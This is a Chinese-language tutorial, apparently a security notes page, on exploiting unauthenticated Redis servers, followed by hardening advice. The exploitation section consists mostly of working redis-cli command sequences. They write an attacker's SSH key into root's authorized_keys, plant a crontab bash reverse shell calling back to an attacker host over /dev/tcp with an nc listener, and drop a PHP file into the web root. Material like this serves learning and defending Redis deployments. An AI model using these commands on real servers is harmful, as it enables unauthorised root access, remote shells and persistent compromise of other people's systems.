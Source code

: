 # Redis 未授权访问漏洞利用
---
Redis是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。

## 一、漏洞介绍

Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

### 漏洞描述

部分 Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问Redis服务并进行相关操作。
利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以直接使用对应的私钥登录目标服务器。

## 二、漏洞利用

首先在本地生产公私钥文件：

`$ ssh-keygen –t rsa`

然后将公钥写入 foo.txt 文件

`$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt`

连接 Redis 写入文件

```
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
$ redis-cli -h 192.168.1.11
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
```

这里讲解下，这里设定了crackit的键值为公钥，并通过redis命令变更Redis DB 文件及存放地点为默认root用户SSH key存放文件，并将键值重定向追加到远程文件authorized_keys的末尾，也就上传了公钥。
这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys 文件里，然后攻击者直接执行：

`$ ssh –i  id_rsa root@192.168.1.11`

可远程利用自己的私钥登录该服务器。

## 其他攻击方法

### 1.redis基本命令

连接redis

`redis-cli -h 192.168.63.130`

查看redis版本信息、一些具体信息、服务器版本信息等等：

`192.168.63.130:6379>info`

将变量x的值设为test：

`192.168.63.130:6379>set x "test"`

是把整个redis数据库删除，一般情况下不要用！！！

`192.168.63.130:6379>flushall`

查看所有键：

`192.168.63.130:6379>KEYS *`

获取默认的redis目录、和rdb文件名：可以在修改前先获取，然后走的时候再恢复。

`192.168.63.130:6379>CONFIG GET dir`

`192.168.63.130:6379>CONFIG GET dbfilename`

### 2.攻击的几种方法

#### (1).利用计划任务执行命令反弹shell

在redis以root权限运行时可以写crontab来执行命令反弹shell 先在自己的服务器上监听一个端口

`nc -lvnp 55555`

然后执行命令:

```
root@kali:~# redis-cli -h 192.168.63.130
192.168.63.130:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.63.128/55555 0>&1\n"
OK
192.168.63.130:6379> config set dir /var/spool/cron/
OK
192.168.63.130:6379> config set dbfilename root
OK
192.168.63.130:6379> save
OK
```

nc监听端口已经反弹回来shell

> ps:此处使用bash反弹shell，也可使用其他方法

#### 反弹shell的几种姿势 (2).写ssh-keygen公钥然后使用私钥登陆

在以下条件下，可以利用此方法

1 Redis服务使用ROOT账号启动

2 服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。

首先在本地生成一对密钥：

`root@kali:~/.ssh# ssh-keygen -t rsa`

然后redis执行命令：

```
192.168.63.130:6379> config set dir /root/.ssh/
OK
192.168.63.130:6379> config set dbfilename authorized_keys
OK
192.168.63.130:6379> set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKfxu58CbSzYFgd4BOjUyNSpbgpkzBHrEwH2/XD7rvaLFUzBIsciw9QoMS2ZPCbjO0IZL50Rro1478kguUuvQrv/RE/eHYgoav/k6OeyFtNQE4LYy5lezmOFKviUGgWtUrra407cGLgeorsAykL+lLExfaaG/d4TwrIj1sRz4/GeiWG6BZ8uQND9G+Vqbx/+zi3tRAz2PWBb45UXATQPvglwaNpGXVpI0dxV3j+kiaFyqjHAv541b/ElEdiaSadPjuW6iNGCRaTLHsQNToDgu92oAE2MLaEmOWuQz1gi90o6W1WfZfzmS8OJHX/GJBXAMgEgJhXRy2eRhSpbxaIVgx root@kali\n\n\n"
OK
192.168.63.130:6379> save
OK
```

save后可以直接利用公钥登录ssh

#### (3).往web物理路径写webshell

当redis权限不高时，并且服务器开着web服务，在redis有web目录写权限时，可以尝试往web路径写webshell

执行以下命令

```
192.168.63.130:6379> config set dir /var/www/html/
OK
192.168.63.130:6379> config set dbfilename shell.php
OK
192.168.63.130:6379> set x "<?php phpinfo();?>"
OK
192.168.63.130:6379> save
OK

```

即可将shell写入web目录(web目录根据实际情况)

## 修复建议/安全建议

### 1.禁止一些高危命令

修改 redis.conf 文件，添加

```
rename-command FLUSHALL ""
rename-command CONFIG   ""
rename-command EVAL     ""
```

来禁用远程修改 DB 文件地址

### 2.以低权限运行 Redis 服务

为 Redis 服务创建单独的用户和家目录，并且配置禁止登陆

`$ groupadd -r redis && useradd -r -g redis redis`

### 3.为 Redis 添加密码验证

修改 redis.conf 文件，添加

`requirepass mypassword`

### 4.禁止外网访问 Redis

修改 redis.conf 文件，添加或修改，使得 Redis 服务只在当前主机可用

`bind 127.0.0.1`

### 5.保证 authorized_keys 文件的安全

为了保证安全，您应该阻止其他用户添加新的公钥。
将 authorized_keys 的权限设置为对拥有者只读，其他用户没有任何权限：

`$ chmod 400 ~/.ssh/authorized_keys`

为保证 authorized_keys 的权限不会被改掉，您还需要设置该文件的 immutable 位权限：

`# chattr +i ~/.ssh/authorized_keys`

然而，用户还可以重命名 ~/.ssh，然后新建新的 ~/.ssh 目录和 authorized_keys 文件。要避免这种情况，需要设置 ~./ssh 的 immutable 位权限：

`# chattr +i ~/.ssh`

> 注意: 如果需要添加新的公钥，需要移除 authorized_keys 的 immutable 位权限。然后，添加好新的公钥之后，按照上述步骤重新加上 immutable 位权限。